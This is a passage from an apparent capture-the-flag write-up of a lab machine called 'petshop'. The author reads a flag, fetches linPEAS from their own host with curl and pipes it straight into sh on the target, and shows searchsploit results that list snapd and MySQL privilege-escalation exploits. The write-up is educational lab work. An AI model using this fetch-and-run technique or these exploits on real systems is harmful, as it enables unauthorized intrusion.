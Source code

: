 > Another decoy. I couldn't crack it.

Going up one level we find the first flag.

```
www-data@petshop:/var/www$ cat flag1.txt
cat flag1.txt
THM{MjBk***********************gfNl}
```

# Scanning for vulnerabilities from the inside

The great thing about such configuration is that we can pull the additional files from our host as we need them. In my experience the wise thing to do is to run the [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) via `curl`. I've hosted the file via `python3 -m http.server 80` command end executed `linpeas` on the target server by piping it directly to shell.

> Read my [detailed linPEAS analysis]( https://ethicalme.hashnode.dev/linpeas ) with usage examples and useful tips and tricks on how I run my `linpeas`.

```sh
www-data@petshop:/var/www$ curl XX.XX.XX.XXX/linpeas.sh | sh
```

## `linpeas`

Samples of points of interests from `linpeas` findings.

```
$ searchsploit snapd 

------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)                  | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)                  | linux/local/46362.py
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I need to check version of the `snapd`. 

```
$ searchsploit mysqld  

------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
MySQL 3.23.x - 'mysqld' Local Privilege Escalation                                   | linux/local/22340.txt
MySQLDriverCS 4.0.1 - SQL Injection                                                  | multiple/remote/35892.txt
MySQLDumper 1.21 - 'sql.php' Cross-Site Scripting                                    | php/webapps/28783.txt
MySQLDumper 1.24.4 - 'filemanagement.php?f' Traversal Arbitrary File Access          | php/webapps/37129.txt
MySQLDumper 1.24.4 - 'index.php?page' Cross-Site Scripting                           | php/webapps/37133.txt
```